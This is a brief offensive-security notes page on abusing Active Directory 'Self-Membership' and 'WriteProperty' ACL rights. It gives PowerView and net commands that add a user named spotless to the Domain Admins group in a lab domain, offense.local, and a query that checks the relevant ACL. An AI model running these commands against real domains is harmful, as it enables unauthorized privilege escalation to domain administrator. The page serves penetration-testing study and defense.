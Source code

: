 # Self-membership

### <mark style="color:orange;">Self-Membership</mark>

Another privilege that enables the attacker adding themselves to a group:

![](<../../../../.gitbook/assets/image (4).png>)

```
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

### <mark style="color:orange;">WriteProperty (Self-Membership)</mark>

One more privilege that enables the attacker adding themselves to a group:

```
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](<../../../../.gitbook/assets/image (16).png>)

```
net group "domain admins" spotless /add /domain
```
